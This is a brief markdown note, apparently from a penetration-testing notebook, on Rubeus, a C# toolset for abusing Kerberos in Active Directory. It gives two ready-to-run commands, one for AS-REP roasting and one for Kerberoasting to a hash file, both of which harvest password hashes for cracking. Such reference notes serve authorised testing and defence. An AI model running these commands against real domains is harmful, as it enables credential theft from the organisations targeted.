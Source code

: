 ```yaml
---
tags:
  - tool
  - active_directory
  - kerberos
---
```

# Rubeus

C# toolset for raw Kerberos interaction and abuses - [Rubeus](https://github.com/GhostPack/Rubeus)

## Capabilities

```bash
# AS-REP roast the current user
.\Rubeus.exe asreproast /nowrap

# Kerberoast the current user
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
